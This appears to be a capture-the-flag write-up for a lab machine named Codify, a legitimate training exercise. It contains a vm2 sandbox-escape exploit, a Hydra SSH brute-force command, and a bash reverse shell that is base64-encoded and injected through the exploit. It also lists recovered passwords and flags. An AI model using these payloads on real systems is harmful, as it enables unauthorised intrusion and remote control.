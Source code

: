 # Codify

## Initial Scan

```nmap
sudo nmap -T4 -v 10.129.82.199
sudo nmap -T4 -Pn -p 22,80,3000 -sV -sC -v 10.129.82.199 -oA Codify
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## HTTP

Had to edit the host file to get the Webpage

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Checking out their About Us page

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Looking around for VM2 CVE's, found [this article on snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) about RCE with VM2 after seeing a couple others. Testing the other PoC's I didn't get anywhere until I found this one. We can run commands on the host bypassing the VM.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -al").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

whoami shows us the `svc` user. Also looking at `/etc/passwd` we see an additional user, `joshua`&#x20;

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### BruteForce

Trying to run Hydra against the user joshua for a password

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt -V ssh://10.129.82.199
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

`joshua:spongebob1`

### Obtaining shell

Working to get a shall as svc. Looking around for reverse shell, I found [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

```bash
bash -i >& /dev/tcp/10.10.14.53/1234 0>&1
```

Running it normally didn't work so I encoded it

```
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash"
```

Full command

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

## Foothold

We have shell as svc

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Seeing what permissions we have

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## User Flag

After getting into shell from the SVC user, I got Joshuas password with hydra.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

User flag: `c53cdd4688463871ba3f4020ab6f3ccb`

## Priv Esc

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We have run the note of "User joshua may run the following commands on codify: (root) /opt/scripts/mysql-backup.sh" So looking at the shell file

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Running that as root as get

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Get [PSPY](https://github.com/DominicBreuker/pspy) Initiate another SSH session. Get pspy64 onto the target machine, run it, then run the `/opt/scripts/mysql-backup.sh` script

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Root pass: `kljh12k3jhaskjh12kjh3`

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Root flag: `4e43f866588b3b3433196af3cef8b768`
